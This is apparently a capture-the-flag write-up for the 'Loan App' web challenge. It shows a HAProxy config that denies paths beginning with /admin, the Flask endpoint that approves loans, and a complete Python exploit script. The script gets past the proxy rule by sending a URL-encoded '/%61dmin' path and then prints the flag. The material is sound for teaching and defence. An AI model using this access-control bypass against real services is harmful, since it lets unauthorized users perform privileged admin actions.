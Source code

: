+++
title = 'Loan App'
tags = [
  "Web",
  "Python",
  "Proxy bypass",
  "394 points",
  "129 solves",
  "Vigneswar",
]
date = 2024-10-06T14:41:13+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Loan app</h1>

**Description**: One of the first web challenges solved in ctf, not very complex (at least the unintended solution)

## Introduction

This is the challenge web with the most solutions, which I must say is very nice, my solution is the unintended but also the most common one, in fact the correct approach would have been to do 'request smuggling', which is a much more complex attack to bypass the proxy, which in this case consists of splitting a request between proxy and backend.

Solve intended: [Something like this](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/)

## Source

We focus on the proxy config

```python
# filename: file.py

global
    log stdout format raw local0
    maxconn 2000
    user root
    group root
    daemon

defaults
    log global
    option httplog
    timeout client 30s
    timeout server 30s
    timeout connect 30s

frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin # Miss config
    http-request deny if is_admin # Miss config
    default_backend gunicorn

backend gunicorn
    mode http
    balance roundrobin
    server loanserver loanapp:8000 maxconn 32

```

And win function

```python
# filename: file.py

@app.route('/admin/loan/<loan_id>', methods=['POST'])
def admin_approve_loan(loan_id):
    try:
        mongo.db.loan.update_one({'_id': ObjectId(loan_id)}, {'$set': {'status': 'approved', 'message': FLAG}})
        return 'OK', 200
    except:
        return 'Internal Server Error', 500

```

_Comments added by me_

## Solution

The solution is very simple: just read the source code, register and login, and create a loan. Once this is done, thanks to the `/admin/loan/id` endpoint, the loan is approved by setting the flag

```python
# filename: file.py

#!/usr/bin/python3

import http
import requests
from uuid import uuid4
from bs4 import BeautifulSoup
import urllib3.util

BASE_URL = "http://loanapp.1nf1n1ty.team/"
s = requests.Session()

def login(username,password):
  r = s.post(BASE_URL + "login", data={"username": username, "password": password})
  if r.status_code == 200:
    print("[+] Login successful")
  else:
    print("[-] Login failed: " + r.text)
    exit(1)

def register(username,password):
  r = s.post(BASE_URL + "register",data={"username": username, "password": password})
  if r.status_code == 200:
    print("[+] Registration successful")
  else:
    print("[-] Registration failed: " + r.text)
    exit(1)


def loan_request():
  r = s.post(BASE_URL + "loan-request", data={"amount": "696969696969696969", "reason": "I need money for cookies"})
  if r.status_code == 200:
    print("[+] Loan request successful")
  else:
    print("[-] Loan request failed: " + r.text)
    exit(1)

def get_loan_id():
  r = s.get(BASE_URL)
  soup = BeautifulSoup(r.text, 'html.parser')
  loan_id = soup.find("span", attrs={"class":"loan-id"}).text.strip().split(": ")[1]
  return loan_id

def exploit(loan_id):
  conn = http.client.HTTPConnection(urllib3.util.parse_url(BASE_URL).host)
  conn.request("POST", f"/%61dmin/loan/{loan_id}") # Use http instead of requests for avoid auto url encoding of requests
  response = conn.getresponse()
  if response.status != 200:
    print("[-] Exploit failed")
    exit(1)

def get_flag():
  r = s.get(BASE_URL)
  soup = BeautifulSoup(r.text, 'html.parser')
  return soup.find("p", attrs={"class": "loan-message"}).text.strip()[7:]

def main():
  username, password = uuid4(), uuid4()
  print(f"Username: {username} Password: {password}")
  register(username,password)
  login(username,password)
  loan_request()
  loan_id = get_loan_id()
  print(f"[+] Loan ID: {loan_id}")
  exploit(loan_id)
  print(f"[+] Flag: {get_flag()}")


if __name__ == "__main__":
  main()

# goodluck by @akiidjk

```

```stdout
$flag: ironCTF{L04n_4ppr0v3d_f0r_H4ck3r$!!}
```

<p align='right'>Author: akiidjk </p>
